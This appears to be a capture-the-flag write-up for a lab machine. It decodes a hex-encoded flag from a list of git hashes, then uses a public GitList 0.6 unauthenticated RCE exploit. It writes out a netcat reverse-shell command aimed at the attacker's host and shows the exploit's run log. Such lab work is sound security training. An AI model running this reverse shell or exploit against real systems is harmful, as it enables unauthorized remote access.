 ```
c621038f7cf17e30ebaaa700a28e55c70199e62b
de3ee007bc474ac3a3c5feea9785eaec8108d5d3
92e03d9815d47580154b9c9f66d5463ea0f646fd
254a634e71f4947a596702bf74198eb0152a8f22
0692f9b6809d38e297da9f4393fa76c75e52b64e
b817a68aea42bb02c6e5ca0559ece9e841707547
1810936a71d498872b9c518c1344aae6a9847942
8c96e916143fc549bb6dbcd0f5c3c92a6ce4d21f
cf94438c8e8668a82bbd207a69d18b4e63448df6
39d7e27901bf3704aa07adbb37d93d2bb7ff0c1a
720bb8b2cb44edbb84e6f0dca2cf458fae8a98a4
3f8f465f140e77817ea970cd888dae2534d043a6
1a5e481b0a524d2b5d33236d41cde5e96b750283
bb0c0226ba01a828b3e5755876cbca2ec611b5c4
64447ceb593f54e66881757206eb851892b7ca8c
fbf214d9789bd029b29717280145f9c8d5cf0f4d
716dd2a1d67b8dc6f2be2979e295890a0d31e6e3
a75c553abf99adb1ad7c75857e2eea783f41ffea
f2af04be6a196fbd540554042e908fe309adee63
```

Sorting the list of hashes makes it easier to see: `666c61677b62626366353864337de88e1f1914c8`

The first half of that hash is the flag, encoded in hex:
`flag{bbcf58d3}`

The next flags can't be obtained without getting a shell on the machine. A quick google search reveals gitlist has multiple RCE vulnerabilities. We cna use the following exploit:

https://www.exploit-db.com/exploits/44548

Editing the IPs and command to:
```
url = 'http://192.168.56.101/'
command = 'nc -e /bin/sh 192.168.56.104 8081' # nc reverse shell
your_ip = '192.168.56.104'
your_port = 8001
```

Set up a netcat lsitener and run the exploit

Exploit:
```
┌[~/CTFs/DC207]
└⇾ root $ python /pentest/gitList-RCE.py 
GitList 0.6 Unauthenticated RCE
by Kacper Szurek
https://security.szurek.pl/
REMEMBER TO DISABLE FIREWALL
[+] Found repo secret_files
[+] Found file image1.png
����JFIF��
          |http://ns.adobe.com/xap/1.0/<?xpacket begin='���' id='W5M0MpCehiHzreSzNTczk
[+] Search using http://192.168.56.101/secret_files/tree/c/search
[+] Start server on 192.168.56.103:8001
[+] Server started
```
